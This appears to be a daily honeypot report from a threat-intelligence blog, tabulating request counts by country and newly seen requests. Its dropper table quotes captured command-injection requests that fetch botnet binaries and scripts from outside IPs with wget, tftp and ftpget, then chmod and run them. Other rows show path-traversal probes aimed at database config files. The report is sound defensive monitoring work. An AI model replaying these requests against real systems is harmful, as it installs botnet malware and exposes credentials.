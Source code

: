 ```yaml
---
title: "Report: 2025-06-30 "
date: 2025-06-30
desciption: "Report: 2025-06-30" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-30 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 15 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 792 requests were recorded during the day, originating from 3 different countries, with a peak of 302 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| FR               | Germany            |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|:--------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.83  | GET /shell?rm arm7;wget http://141.98.11.83/m/arm7;chmod 777 arm7;./arm7 arm7 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| 64.130.33.147 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F207.167.64.24%2Ftbk.sh%3B%20chmod%20777%20tbk.sh%3B%20sh%20tbk.sh%3B%20tftp%20207.167.64.24%20-c%20get%20tbk1.sh%3B%20chmod%20777%20tbk1.sh%3B%20sh%20tbk1.sh%3B%20tftp%20-r%20tbk2.sh%20-g%20207.167.64.24%3B%20chmod%20777%20tbk2.sh%3B%20sh%20tbk2.sh%3B%20ftpget%20-v%20-u%20anonymous%20-p%20anonymous%20-P%2021%20207.167.64.24%20tbk1.sh%20tbk1.sh%3B%20sh%20tbk1.sh%3B%20rm%20-rf%20tbk.sh%20tbk1.sh%20tbk2.sh%20tbk1.sh HTTP/1.1 |
| 108.165.153.7 | GET /shell?cd+/tmp;rm+arm+arm7;wget+http:/\x5C/185.117.0.90/arm7;chmod+777+arm7;./arm7+jaws;wget+http:/\x5C/185.117.0.90/arm4;chmod+777+arm4;./arm4+jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                               |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                     |
|----:|----------------------:|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  30 |                     3 | GET /locales/locale.json?locale=../../config/&namespace=database HTTP/1.1                                                                                                                   |
| 113 |                     1 | \x00\x0E\x08pFX\xA0\xAE3\x1C\x1D\x00\x00\x00\x00\x00                                                                                                                                        |
| 114 |                     1 | \x00\x0E8pFX\xA0\xAE3\x1C\x1D\x00\x00\x00\x00\x00                                                                                                                                           |
| 127 |                     1 | GET /Ax9k HTTP/1.1                                                                                                                                                                          |
| 128 |                     1 | GET /BmId HTTP/1.1                                                                                                                                                                          |
| 139 |                     1 | \x00\x0E\x08r=\xD60\xE4\xDF\xE5\x06\x00\x00\x00\x00\x00                                                                                                                                     |
| 140 |                     1 | \x00\x0E8r=\xD60\xE4\xDF\xE5\x06\x00\x00\x00\x00\x00                                                                                                                                        |
| 141 |                     1 | \x00\x0E8\x1Cp\xFCF\xAC\x05\xACa\x00\x00\x00\x00\x00                                                                                                                                        |
| 142 |                     1 | \x01!\x01\x01\x01\x01\x01\x013\x00\x00\x00\x00\x00\x00\x00\x01\xEB\x03\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x01\x00\x00\x00\x01\x11\x01\x01\x01\x01\x02\x01\x01\x04\x09node_data\x0C\x04 |
| 143 |                     1 | CONNECT 196.251.87.74:80 HTTP/1.0                                                                                                                                                           |
| 144 |                     1 | \x04\x01\x00P\xC4\xFBWJ\x00                                                                                                                                                                 |
| 161 |                     1 | GET /EYnP HTTP/1.1                                                                                                                                                                          |
| 162 |                     1 | GET /9lkM HTTP/1.1                                                                                                                                                                          |
| 173 |                     1 | GET /locales/locale.json?locale=../../../pterodactyl&namespace=config/database HTTP/1.1                                                                                                     |
| 174 |                     1 | \x00\x0E\x08\x1Cp\xFCF\xAC\x05\xACa\x00\x00\x00\x00\x00                                                                                                                                     |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   302 | US                 |
|  1 |                    61 | RU                 |
|  2 |                    59 | GB                 |
|  3 |                    45 | NL                 |
|  4 |                    45 | BG                 |
|  5 |                    40 | DE                 |
|  6 |                    32 | SC                 |
|  7 |                    28 | FR                 |
|  8 |                    18 | LT                 |
|  9 |                    18 | IN                 |
| 10 |                    13 | CH                 |
| 11 |                    12 | JP                 |
| 12 |                    12 | PL                 |
| 13 |                    11 | CA                 |
| 14 |                     9 | CN                 |
| 15 |                     8 | IL                 |
| 16 |                     8 | TR                 |
| 17 |                     7 | NG                 |
| 18 |                     6 | HK                 |
| 19 |                     6 | AU                 |
| 20 |                     6 | AO                 |
| 21 |                     5 | BE                 |
| 22 |                     4 | SG                 |
| 23 |                     4 | UA                 |
| 24 |                     4 | GH                 |
| 25 |                     4 | VN                 |
| 26 |                     3 | BR                 |
| 27 |                     3 | ID                 |
| 28 |                     3 | KZ                 |
| 29 |                     2 | TW                 |
| 30 |                     2 | KR                 |
| 31 |                     2 | RO                 |
| 32 |                     2 | IE                 |
| 33 |                     2 | ZA                 |
| 34 |                     1 | IR                 |
| 35 |                     1 | AZ                 |
| 36 |                     1 | ES                 |
| 37 |                     1 | AR                 |
| 38 |                     1 | SE                 |
| 39 |                     1 | IT                 |
